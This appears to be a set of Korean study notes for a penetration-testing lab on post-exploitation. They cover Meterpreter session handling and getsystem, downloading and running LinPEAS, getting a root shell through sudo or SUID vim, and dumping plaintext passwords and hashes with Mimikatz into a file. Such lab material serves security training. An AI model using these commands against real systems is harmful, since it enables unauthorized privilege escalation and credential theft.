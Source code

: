 ### Goal

- 획득한 셸 세션으로 내부망 횡적 이동
    
- 로컬 권한 상승 기법 실습 (SUID, kernel exploit 등)
    
- 크리덴셜 덤프 및 재사용
    

---

### 주요 도구 & 해석

1. **Meterpreter 스크립트**
    
    `meterpreter > background   msf6 exploit(multi/handler) > sessions -i 1   sessions -u 1`  
    
    - **해석**:
        
        - `sessions -i 1` : 세션 1로 연결
            
        - `sessions -u 1` : 세션 업그레이드 (Meterpreter 쉘 설치)
            
2. **LinPEAS (자동 권한 상승 검사)**
    
    `wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh   chmod +x linpeas.sh   ./linpeas.sh`  
    
    - **해석**: 시스템 취약점·SUID·환경변수 이슈 자동 탐색
        
3. **sudo 권한 상승**
    
    `sudo -l   # (allowed commands)  sudo /usr/bin/vim -c ':!sh'`  
    
    - **해석**:
        
        - `sudo -l` : 실행 가능한 sudo 명령 확인
            
        - `vim` 권한 악용 → `:!sh`로 루트 셸
            
4. **Mimikatz (Windows 크리덴셜 덤프)**
    
    `mimikatz # privilege::debug   mimikatz # sekurlsa::logonpasswords`  
    
    - **해석**: 권한 상승 후 메모리에서 평문 비밀번호·NTLM 해시 추출
        
5. **Meterpreter 권한 상승 모듈 (getsystem)**
    
    `meterpreter > getsystem`  
    
    - **해석**: 가능한 권한 상승 취약점 자동 탐색·사용
        

---

### Lab Exercise 실습

1. **Meterpreter 배경 세션 재진입**
    
    `meterpreter > background   msfconsole > sessions -i 1`  
    
    - **해석**: 백그라운드된 세션(1)에 다시 연결
        
2. **linPEAS로 취약점 자동 진단**
    
    `wget https://…/linpeas.sh   chmod +x linpeas.sh   ./linpeas.sh | tee linpeas_output.txt`  
    
    - **해석**: `linpeas_output.txt`에 권한 상승 가능 지점 정리
        
3. **SUID 바이너리 악용**
    
    `find / -perm -4000 -type f 2>/dev/null | grep vim   sudo vim -c ':!sh'`  
    
    - **해석**: SUID로 설정된 `vim` 찾아 루트 셸 확보
        
4. **Meterpreter `getsystem` 시도**
    
    `meterpreter > getsystem   meterpreter > getuid`  
    
    - **해석**: `getuid`로 현재 사용자 확인 (root여부)
        
5. **Windows 환경 (선택)**
    
    `mimikatz # privilege::debug   mimikatz # sekurlsa::logonpasswords > creds.txt`  
    
    - **해석**: `creds.txt`에 포착된 크리덴셜 저장